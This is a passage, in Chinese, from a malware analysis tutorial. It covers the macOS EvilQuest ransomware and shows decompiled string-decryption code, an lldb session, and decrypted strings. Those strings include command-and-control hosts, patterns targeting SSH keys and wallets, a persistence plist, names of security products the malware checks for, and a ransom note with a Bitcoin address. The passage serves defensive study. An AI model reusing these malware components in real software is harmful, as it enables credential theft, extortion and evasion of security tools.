   install_daemon(var_30, ei_str("0hC|h71FgtPJ32afft3EzOyU3xFA7q0{LBx..."1), 
                  ei_str("0hC|h71FgtPJ19|69c0m4GZL1xMqqS3kmZbz3FWvlD..."), 0x1);

   var_50 = ei_str("0hC|h71FgtPJ19|69c0m4GZL1xMqqS3kmZbz3FWvlD1m6d3j0000073");
   var_58 = ei_str("20HBC332gdTh2WTNhS2CgFnL2WBs2l26jxCi0000013");
   var_60 = ei_str("1PbP8y2Bxfxk0000013");
   ...
   run_daemon_u(var_50, var_58, var_60);
   ...
   run_target(*var_10);
}
```

看起来，我们关心的各种值，比如守护进程的名称和路径，都是混淆过的 1。由于这些混淆字符串以及代码片段中的其他字符串都传递给`ei_str`函数，因此合理推测，这就是负责字符串解混淆的函数（Listing 10-14）：

```
var_50 = ei_str("0hC|h71FgtPJ19|69c0m4GZL1xMqqS3kmZbz3FWvlD1m6d3j0000073");
var_58 = ei_str("20HBC332gdTh2WTNhS2CgFnL2WBs2l26jxCi0000013");
var_60 = ei_str("1PbP8y2Bxfxk0000013");
```

Listing 10-14：混淆的字符串，传递给`ei_str`函数

当然，我们应该验证我们的假设。仔细查看 Listing 10-15 中`ei_str`函数的反编译：

```
int ei_str(char* arg0) {

   var_10 = arg0;
   if (*_eib_string_key == 0x0) {
    1 *eib_string_key = eip_decrypt(_eib_string_fa, 0x6b8b4567); 
   }
   var_18 = 0x0;
   rax = strlen();
   rax = 2 eib_secure_decode(var_10, rax, *eib_string_key, &var_18); 
   var_20 = rax;
   if (var_20 == 0x0) {
      var_8 = var_10;
   }
   else {
      var_8 = var_20;
   }
   rax = var_8;
   return rax;
}
```

Listing 10-15：`ei_str`函数，反编译后的代码

这揭示了一个名为`eib_string_key`的全局变量的一次性初始化 1，随后调用了一个名为`eib_secure_decode` 2 的函数，之后又调用了一个名为`tpdcrypt`的方法。反编译还揭示了`ei_str`函数接受一个参数（即混淆后的字符串），并返回其解混淆后的值。

正如第九章所指出的，我们实际上不需要关心去模糊化或解密算法的细节。我们可以简单地在`ei_str`函数的结尾设置调试器断点，并打印出存储在`RAX`寄存器中的去模糊化字符串。如下所示，在`ei_str`函数的开始和结束设置断点后，我们能够打印出模糊化字符串（`"1bGvIR16wpmp1uNjl83EMxn43AtszK1T6...HRCIR3TfHDd0000063"`）及其去模糊化后的值，这是恶意软件启动项持久化的模板：

```
% **lldb patch**
(lldb) **target create "patch"**
...

(lldb) **b 0x100000c20**
**Breakpoint 1: where** **= patch`patch[0x0000000100000c20], address = 0x0000000100000c20**
(lldb) **b 0x100000cb5**
Breakpoint 2: where = patch`patch[0x0000000100000cb5], address = 0x0000000100000cb5

(lldb) **r**

Process 1397 stopped
* thread #1, queue = 'com.apple.main-thread', stop reason = breakpoint 1.1
->  0x100000c20: pushq  %rbp
    0x100000c21: movq   %rsp, %rbp

(lldb) **x/s $rdi**
0x10001151f: "1bGvIR16wpmp1uNjl83EMxn43AtszK1T6...HRCIR3TfHDd0000063"

(lldb) **c**

Process 1397 stopped
* thread #1, queue = 'com.apple.main-thread', stop reason = breakpoint 2.1
->  0x100000cb5: retq

(lldb) **x/s $rax**
0x1002060d0: "<?xml version="1.0" encoding="UTF-8"?>\n<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">\n<plist version="1.0">\n<dict>\n<key>Label</key>\n<string>%s</string>\n\n<key>ProgramArguments</key>\n<array>\n<string>%s</string>\n<string>--silent</string>\n</array>\n\n<key>RunAtLoad</key>\n<true/>\n\n<key>KeepAlive</key>\n<true/>\n\n</dict>\n</plist>"
```

这种方法的缺点是，我们只有在恶意软件调用`ei_str`函数并触发调试器断点时才会解密字符串。因此，如果加密字符串仅在未执行的代码块中引用，例如仅在恶意软件从感染文件中执行时才会调用的持久化逻辑，我们将永远看不到其解密后的值。

出于分析的目的，强制恶意软件解密所有这些字符串对我们将非常有用。回顾上一章，我们创建了一个可注入的动态库，能够完成这一操作。具体来说，一旦加载到 EvilQuest 中，它首先解析恶意软件的`ei_str`函数地址，然后对恶意软件中所有模糊化的字符串调用此函数。在上一章中，我们展示了该库输出的一个片段。列表 10-16 展示了其完整内容：

```
% **DYLD_INSERT_LIBRARIES=/tmp/decryptor.dylib patch** 

decrypted string (0x10eb675ec): andrewka6.pythonanywhere.com
decrypted string (0x10eb67624): ret.txt

decrypted string (0x10eb67a95): *id_rsa*/i
decrypted string (0x10eb67c15): *key*.png/i
decrypted string (0x10eb67c35): *wallet*.png/i

decrypted string (0x10eb6843f): /Library/AppQuest/com.apple.questd
decrypted string (0x10eb68483): /Library/AppQuest
decrypted string (0x10eb684af): %s/Library/AppQuest
decrypted string (0x10eb684db): %s/Library/AppQuest/com.apple.questd

decrypted string (0x10eb6851f): 
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
<key>Label</key>
<string>%s</string>

<key>ProgramArguments</key>
<array>
<string>%s</string>
<string>--silent</string>
</array>

<key>RunAtLoad</key>
<true/>

<key>KeepAlive</key>
<true/>

</dict>
</plist>

decrypted string (0x10eb68817): NCUCKOO7614S
decrypted string (0x10eb68837): 167.71.237.219

decrypted string (0x10eb6893f): Little Snitch
decrypted string (0x10eb6895f): Kaspersky
decrypted string (0x10eb6897f): Norton
decrypted string (0x10eb68993): Avast
decrypted string (0x10eb689a7): DrWeb
decrypted string (0x10eb689bb): Mcaffee
decrypted string (0x10eb689db): Bitdefender
decrypted string (0x10eb689fb): Bullguard

decrypted string (0x10eb68b54): YOUR IMPORTANT FILES ARE ENCRYPTED

Many of your documents, photos, videos, images, and other files are no longer accessible because they have been encrypted. Maybe you are busy looking for a way to recover your files, but do not waste your time. Nobody can recover your file without our decryption service.
...
Payment has to be deposited in Bitcoin based on Bitcoin/USD exchange rate at the moment of payment. The address you have to make payment is:

decrypted string (0x10eb6939c): 13roGMpWd7Pb3ZoJyce8eoQpfegQvGHHK7
decrypted string (0x10eb693bf): Your files are encrypted

decrypted string (0x10eb6997e): READ_ME_NOW
...

decrypted string (0x10eb69b6a): .doc
decrypted string (0x10eb69b7e): .txt
decrypted string (0x10eb69efe): .html
```

列表 10-16：解密所有 EvilQuest 嵌入的字符串

在解密输出中，我们发现了许多揭示性字符串：

+   服务器地址，可能用于命令与控制，如*andrewka6.pythonanywhere.com*和*167.71.237.219*

+   正则表达式可能与涉及密钥、证书和钱包的感兴趣文件相关，例如`*id_rsa*/i`、`*key*.pdf/i`、`*wallet*.pdf`等

+   一个嵌入的属性列表文件，可能用于启动项持久化

+   安全产品的名称，如 Little Snitch 和 Kaspersky

+   解密指令和恶意软件针对的报告勒索病毒逻辑的文件扩展名：*.zip*、*.doc*、*.txt*等

这些解密后的字符串为我们提供了更多关于恶意软件各个方面的见解，将有助于我们继续分析。

## 接下来

在这一章中，我们对 EvilQuest 进行了分类，并识别出了其旨在阻碍分析的反分析代码。接着，我们探讨了如何有效绕过这些代码，以便我们的分析能够继续。在下一章，我们将继续研究这一复杂的恶意软件，详细介绍其持久化机制和多种功能。

## 结束注释
